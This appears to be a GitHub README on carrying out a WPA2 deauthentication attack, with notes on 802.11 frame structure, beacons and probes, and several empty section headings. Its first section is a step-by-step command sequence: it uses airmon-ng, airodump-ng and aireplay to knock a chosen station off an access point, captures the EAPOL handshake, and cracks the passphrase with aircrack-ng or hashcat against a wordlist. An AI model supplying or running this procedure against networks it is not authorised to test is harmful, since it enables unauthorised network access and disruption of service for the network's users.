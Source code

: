 # WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack

# Probes, Beacons, and Wifi Packets

To get stated analyzing this attack we need to look at exactly how one knows that an access point or AP is avaiable. After all this attack targets a single and deliberately chosen AP. The best way to start analyzing packets is with wireshark which can be installed with the `apt` mananger. One can run this `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>` followed by running wire shark on the outputted .cap file. In wireshark you can filter out alot of the noise on the channel with the filter `wlan.addr == <bssid> `.

# WIFI packet Basic Structure

```

-----------------------------------------------------------------
| FC | Dur | DA | SA | BSSID | Seq | A4 | QoS | HT | Body | FCS |
-----------------------------------------------------------------

```

* FC = Frame Control. Most importantly defines frame type and sub type. See [here](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* Dur = Duration. Usually denotes the amount requested or granted of airtime
* DA = Destination Address
* SA = Source Address
* BSSID = MAC of AP
* Seq = Sequence Number
* A4 = MAC 4 only present in frames between APs
* QoS = Quality of Service
* HT = High Throughput
* Body = Main body of packet
* FCS = CRC of packet including header

Each of these fields have drastically different meanings based on the type of frame of which there are 4 major types:

* Data
* Control
* Management
* Misc

Below we look at a very very small subset of the packet and their contents as it relates to this attack.

## Beacon

* Sent automatically by all acccess points at a regular interval.
* FC = `0x8000`
    * This decodes to a frame of type Management and a subtype of beacon
* DA = `ff:ff:ff:ff:ff:ff` and SA=BSSID
* In a beacon frame rate of beacon frame sent is advertised
* Capabilites, SSID (the ascii name of the AP), Supported rates are all sent.
* To see this, do a dump with the `-e` flag targeting an AP: `sudo airodump-ng wlp5s0mon -e --bssid B6:FE:F4:C3:ED:EE -c 6 -w out`
* Open wire shark on the .cap file and you should see a butt load of beacons
* When scanning for APs listening for beacons is considered a passive scan

## Probe

* Deliberatley sent by the station (STA) to the AP aka an active AP scan
* FC = `0x4000`
    * This decodes to a managment type with probe request sub type
* DA = `ff:ff:ff:ff:ff:ff` = BSSID
* SA = <sender MAC>
* The packet really only contains the STAs advertised rates and the ssid of a AP if the scan was targeted to an AP
* To capture these packets we just set the ESP32 deluminator to scan our home AP and dumped packets targeting that AP

## Association Request and Response

## Authentication Deauthentication

## WPA2 EAPOL Frames

# Resources

* [Wiki on Wifi Frame](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* [Wiki on 802.11](https://en.wikipedia.org/wiki/IEEE_802.11#Layer_2_%E2%80%93_Datagrams)
